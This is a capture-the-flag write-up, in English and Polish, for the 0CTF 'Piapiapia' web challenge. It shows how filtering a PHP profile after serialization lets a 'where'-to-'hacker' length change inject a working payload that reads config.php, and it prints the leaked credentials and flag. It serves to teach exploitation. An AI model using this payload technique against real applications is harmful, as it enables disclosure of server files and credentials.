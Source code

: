 ## Piapiapia (Web, 6p)
	
###ENG
[PL](#pl-version)

We get a page and its source. It looks like flag is stored inside config.php.
All inputs seem pretty well validated but 'nickname' doesn't handle arrays well.
Validation is skipped when passed as 'nickname[]='.

SQL injection will be hard, as all backslashes and "unsafe" words are removed:
```php
function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
The problem is, it's sanitized *after* being serialized:
```php
$user->update_profile($username, serialize($profile));

public function update_profile($username, $new_profile) {
	$username = parent::filter($username);
	$new_profile = parent::filter($new_profile);

	$where = "username = '$username'";
	return parent::update($this->table, 'profile', $new_profile, $where);
}
```

Replacing "where" with "hacker" changes the length of the string.
Allowing us to replace part of serialized object with our content.
We replace photo file name with "config.php":
```php
$payload = "\";}s:5:\"photo\";s:10:\"config.php\";}\";";
$POST['nickname[]'] = str_repeat("where", strlen($payload)).$payload;
```
After this, "config.php" is returned as base64 encoded data uri:
```php
<?php
	  $config['hostname'] = '127.0.0.1';
	  $config['username'] = '0ctf';
	  $config['password'] = 'oh-my-**-web';
	  $config['database'] = '0CTF_WEB';
	  $flag = '0ctf{fa717b49649fbb9c0dd0d1663469a871}';
?>
```
###PL version

Otrzymujemy strone PHP wraz ze źródłem. Flaga przetrzymywana jest w pliku config.php.
Wszystkie wartośći wejściowe wydają się dobrze sprawdzane.
Jednak walidacja 'nickname' nie zadziała jeżeli przekażemy go jako tablicę: `nickname[]=`

SQL injection może jednak okazać się problematyczne. Wszystkie `\\` oraz "podejżane" słowa kluczowe są usuwane:
```php
function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
Niedopatrzeniem okazuje się to, że dane profilu "oczyszczane" są po serializacji: 
```php
$user->update_profile($username, serialize($profile));

public function update_profile($username, $new_profile) {
	$username = parent::filter($username);
	$new_profile = parent::filter($new_profile);

	$where = "username = '$username'";
	return parent::update($this->table, 'profile', $new_profile, $where);
}
```

Zamiana "where" na "hacker" zmienia długość zakodowanego łańcucha.
Umożliwia to nadpisanie końcówki obiektu naszymi wartościami.
Zamieniamy nazwę pliku ze zdjęciem na "config.php":
```php
$payload = "\";}s:5:\"photo\";s:10:\"config.php\";}\";";
$POST['nickname[]'] = str_repeat("where", strlen($payload)).$payload;
```
Dzięki temu "config.php" jest nam zwracany jako base64 data uri:
```php
<?php
	  $config['hostname'] = '127.0.0.1';
	  $config['username'] = '0ctf';
	  $config['password'] = 'oh-my-**-web';
	  $config['database'] = '0CTF_WEB';
	  $flag = '0ctf{fa717b49649fbb9c0dd0d1663469a871}';
?>
```
